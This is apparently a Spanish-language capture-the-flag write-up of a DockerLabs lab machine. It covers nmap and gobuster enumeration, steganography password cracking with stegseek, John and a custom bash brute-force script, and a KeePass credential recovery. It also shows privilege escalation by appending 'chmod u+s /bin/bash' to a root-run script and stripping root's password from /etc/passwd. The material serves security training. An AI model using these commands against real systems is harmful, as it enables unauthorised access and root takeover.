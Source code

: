 

> Habilidades: Enumeración, esteganografía, fuerza bruta, escalada de privilegios
> 
![intro](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Intro.png?raw=true)

# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la IP de la víctima para averiguar qué puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn --min-rate=5000 $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/FirsScan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.
- `--min-rate`: Tasa mínima de paquetes por segundo.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumeración a los puertos abiertos lanzando los scripts predeterminados e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![ServicesScan](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/ServicesScan.png?raw=true)


- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.

_____________________________________________________________________________________________________________________________________________________________________

## Http Service

Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/WhatWeb.png?raw=true)

Ahora nos dirigimos a reisar la web con el explorador. Vemos la pagina default del servidor Apache.

![Apache2Web](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/UbuntuWeb.png?raw=true)

Ahora realizaremos fuzzing para ver si encontramos algun directorio.


### Gobuster
~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 -x php,txt,html,php.bak
~~~
![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Gobuster.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 
- `-x php,txt,html,php.bak`: Busca extensiones de archivo

Encontramos un directorio interesante, penguin.html, nos dirigimos a la página a ver que podemos encontrar.

![penguinweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/penguinweb.png?raw=true)

Como siempre, revisamos también el código fuente, pero no encontramos nada. Vamos a revisar la imagen por si contuviera información oculta en los píxeles menos relevantes, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`.


## Stego

~~~
steghide extract -sf imagen.jpg
~~~

![steghide_pass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/steghide_pass.png?raw=true)

El contenido de la imagen parece estár protegido por una contraseña. Hay herramientas para realizar fuerza bruta vamos a ello, `stegseek`.

~~~
stegseek penguin.jpg
~~~

![penguibruteforze](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/stegkek.png?raw=true)

Encontró la contraseña muy easy, exportó un arhivo con extensión kdbx y relativo a un gestor de contraseñas: `KeepPass`.





Al parecer, `chocolate` es la contraseña para extraer el archivo kdbx.
Lo extraemos e intentamos abrir con la misma contraseña sin suerte. Intentaremos fuerza bruta con la herramienta de ´keepass2john´ y `John`

![Extract_choco](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Extract_choco.png?raw=true)

Primero, lo pasamos a un formato legible para john.

~~~
keepass2john penguin.kdbx > hash
~~~

A continuación, hacemos fuerza bruta al archivo `hash`.

![brute](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/burte.png?raw=true)
![force](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/force.png?raw=true)

~~~
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
~~~
**
<details>
    <summary>Script para la misma tarea que John</summary>

```bash
#!/bin/bash

# Pedir rutas al usuario con ejemplos
read -p "Ruta del archivo diccionario (ej: /usr/share/wordlists/rockyou.txt): " rockyou_file
read -p "Ruta del archivo imagen (ej: /home/user/Desktop/DockerLabs/HackPenguin/penguin.jpg): " image_file
read -p "Ruta del archivo kdbx (ej: /home/user/Desktop/DockerLabs/HackPenguin/database.kdbx): " database_file

# Variables
output=""
nIntentos=0

# Verificar si los archivos existen
[[ ! -f "$rockyou_file" ]] && echo "rockyou.txt no existe en la ruta indicada" && exit 1
[[ -f "$database_file" ]] && echo "kdbx existe. Borrándolo..." && rm "$database_file"
[[ ! -f "$image_file" ]] && echo "imagen.jpg no existe en la ruta indicada" && exit 1

# Leer y probar contraseñas
while IFS= read -r password; do
    output=$(steghide --extract -sf "$image_file" -p "$password" 2>&1)
    let "nIntentos++"
    if [[ $output == *"no pude"* ]]; then
        echo -ne "Probando... : $password\rNúmero de contraseñas probadas: $nIntentos\r"
    else
        echo -e "\n------------------------------------\nContraseña encontrada: $password"
        break
    fi
done < "$rockyou_file"
```
</details>
**

Abrimos el archivo con la contraseña encontrada, para ello usamos keepassxc:

![Keepasxc](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/keepassxc.png?raw=true)
~~~
keepassxc penguin.kdbx
~~~

Una vez dentro obtenemos usuario y contraesña.

![pinguinpass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/pinguipass.png?raw=true)


# Escalada de Privilegios

Nos conectamos al host mediante ssh con las credenciales encontradas y empezamos a enumerar el entorno.

~~~
ssh penguin@172.17.0.2
~~~

Sin ir muy lejos, vemos dos archivos en el directorio del usuario Penguin, y revisando los procemos vemos que el script se está ejecutando como root. 
Veamos que contienen.

~~~ bash
ls -lah
cat archivo.txt
cat script.sh
~~~
![penguin](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/penguin.png?raw=true)

~~~ bash
ps aux | -v grep | grep script.sh
~~~
![psaux](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/psaux.png?raw=true)

Lo unico que tenemos que hacer es modificar el script.

~~~ bash
echo 'chmod u+s /bin/bash' >> script.sh
ls -la /bin/bash
/bin/bash -p
~~~
![echo_binbash](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/echo_binbash.png?raw=true)

Como podemos ver, ya tenemos privilegios de root.
Vamos a modificar el archivo `/etc/passwd` para eliminar la `x` en la línea de root, es una técnica para escalar privilegios. Normalmente, el archivo `/etc/passwd`

~~~ bash
nano /etc/passwd
cat /etc/passwd | grep root
su
id
~~~
![final](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/final.png?raw=true)





